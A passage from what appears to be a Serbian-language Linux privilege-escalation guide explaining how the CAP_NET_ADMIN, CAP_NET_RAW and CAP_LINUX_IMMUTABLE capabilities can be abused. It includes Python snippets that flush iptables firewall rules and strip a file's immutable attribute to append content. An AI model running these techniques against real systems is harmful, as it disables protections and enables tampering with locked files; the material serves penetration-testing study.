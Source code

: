 ## CAP\_NET\_ADMIN + CAP\_NET\_RAW

[**CAP\_NET\_ADMIN**](https://man7.org/linux/man-pages/man7/capabilities.7.html) sposobnost dodeljuje nosiocu moć da **menja mrežne konfiguracije**, uključujući postavke firewall-a, tabele rutiranja, dozvole za sokete i postavke mrežnih interfejsa unutar izloženih mrežnih imenskih prostora. Takođe omogućava uključivanje **promiskuitetnog režima** na mrežnim interfejsima, što omogućava presretanje paketa preko imenskih prostora.

**Primer sa binarnim fajlom**

Pretpostavimo da **python binarni fajl** ima ove sposobnosti.

```python
#Dump iptables filter table rules
import iptc
import pprint
json=iptc.easy.dump_table('filter',ipv6=False)
pprint.pprint(json)

#Flush iptables filter table
import iptc
iptc.easy.flush_table('filter')
```

## CAP\_LINUX\_IMMUTABLE

**Ovo znači da je moguće izmeniti atribute inode-a.** Ne možete direktno povećati privilegije sa ovom sposobnošću.

**Primer sa binarnim fajlom**

Ako otkrijete da je fajl nepromenjiv i da python ima ovu sposobnost, možete **ukloniti nepromenjivi atribut i omogućiti izmenu fajla:**

```python
#Check that the file is imutable
lsattr file.sh
----i---------e--- backup.sh
```

```python
#Pyhton code to allow modifications to the file
import fcntl
import os
import struct

FS_APPEND_FL = 0x00000020
FS_IOC_SETFLAGS = 0x40086602

fd = os.open('/path/to/file.sh', os.O_RDONLY)
f = struct.pack('i', FS_APPEND_FL)
fcntl.ioctl(fd, FS_IOC_SETFLAGS, f)

f=open("/path/to/file.sh",'a+')
f.write('New content for the file\n')
```
